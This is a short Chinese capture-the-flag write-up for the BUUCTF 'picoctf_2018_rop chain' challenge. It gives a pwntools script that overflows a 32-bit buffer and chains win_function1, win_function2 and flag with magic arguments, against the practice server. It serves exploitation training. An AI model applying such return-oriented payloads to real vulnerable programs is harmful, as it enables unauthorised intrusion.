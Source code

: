 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#picoctf_2018_rop chain)

这是一道ret2text(32)，关键在于修改变量参数使条件成立getshell

# exp

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
p=remote('node5.buuoj.cn',29600)
#p=process('./PicoCTF_2018_rop_chain')
elf=ELF('./PicoCTF_2018_rop_chain')
flag_addr=elf.sym['flag']
win1=elf.sym['win_function1']
win2=elf.sym['win_function2']
payload1=flat(cyclic(0x1c),p32(win1),p32(win2),p32(flag_addr),p32(0xBAAAAAAD),p32(0xDEADBAAD))
#win1是进入此函数，使win=1成立，
#win2是win1执行完的返回地址，再进去win2执行
#flag_addr是win2执行完的返回地址，再进去执行,flag_addr
#0xBAAAAAAD是执行win2中传入的参数，
#0xDEADBAAD是执行flag中传入的参数，当进入flag_addr执行时，0xBAAAAAAD会被当做返回地址，而后者就是参数
p.sendlineafter('input> ',payload1)
p.recv()
```

